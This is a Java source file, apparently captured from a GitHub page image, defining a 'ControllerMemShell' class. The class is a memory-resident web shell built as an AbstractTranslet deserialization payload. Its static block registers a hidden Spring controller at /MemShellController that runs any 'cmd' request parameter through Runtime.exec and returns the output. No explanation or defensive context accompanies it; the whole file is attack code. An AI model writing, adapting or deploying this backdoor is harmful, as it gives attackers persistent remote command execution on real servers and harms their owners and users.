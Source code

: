 ```java
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Scanner;

public class ControllerMemShell extends AbstractTranslet {
    static {
        try {
            WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
            if (context != null) {
                RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
                PatternsRequestCondition patternsRequestCondition = new PatternsRequestCondition("/MemShellController");//映射路径
                RequestMappingInfo mappingInfo = new RequestMappingInfo(null,patternsRequestCondition,null,null,null,null,null,null);
                Method method = ControllerMemShell.class.getMethod("Shell", HttpServletRequest.class,HttpServletResponse.class,String.class);
                requestMappingHandlerMapping.registerMapping(mappingInfo,new ControllerMemShell(),method);
            }

        }catch (Exception e){
            e.printStackTrace();
        }
    }
    
    public void Shell(HttpServletRequest servletRequest, HttpServletResponse servletResponse, @RequestParam String cmd) throws Exception {
        if (cmd != null) {//回显内容
            Process process = Runtime.getRuntime().exec(cmd);
            java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                    new java.io.InputStreamReader(process.getInputStream()));
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                stringBuilder.append(line + '\n');
            }
            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
            servletResponse.getOutputStream().flush();
            servletResponse.getOutputStream().close();
        }
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}

```
